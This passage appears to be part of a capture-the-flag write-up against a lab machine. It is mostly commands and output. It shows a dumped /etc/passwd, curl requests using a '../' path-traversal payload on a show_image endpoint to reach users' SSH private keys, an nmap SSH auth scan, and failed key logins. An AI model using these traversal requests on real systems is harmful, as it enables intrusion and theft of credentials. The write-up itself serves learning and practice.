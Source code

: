 ```bash
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

Well that was easy
```bash
grep sh$ passwd
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```

```bash
curl -I 'http://10.10.11.204:8080/show_image?img=../../../../../../../../../home/frank/.ssh/id_rsa'
HTTP/1.1 200
Accept-Ranges: bytes
Content-Type: image/jpeg
Content-Length: 2602
Date: Sun, 12 Mar 2023 18:54:52 GMT
```
```bash
curl -I 'http://10.10.11.204:8080/show_image?img=../../../../../../../../../home/phil/.ssh/id_rsa'
HTTP/1.1 500
Content-Type: application/json
Transfer-Encoding: chunked
Date: Sun, 12 Mar 2023 18:56:03 GMT
Connection: close
```

```bash
nmap -p 22 --script ssh-auth-methods 10.10.11.204
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-12 18:49 GMT
Nmap scan report for 10.10.11.204
Host is up (0.033s latency).

PORT   STATE SERVICE
22/tcp open  ssh
| ssh-auth-methods:
|   Supported authentication methods:
|     publickey
|_    password
```

We can extract a private key for frank, but it's not valid.
```bash
ssh -i frank_priv -o PubkeyAuthentication=yes -o PreferredAuthentications=publickey frank@10.10.11.204
frank@10.10.11.204: Permission denied (publickey,password).
ssh -i frank_priv -o PubkeyAuthentication=yes -o PreferredAuthentications=publickey phil@10.10.11.204
phil@10.10.11.204: Permission denied (publickey,password).
ssh -i frank_priv -o PubkeyAuthentication=yes -o PreferredAuthentications=publickey root@10.10.11.204
root@10.10.11.204: Permission denied (publickey,password).
```
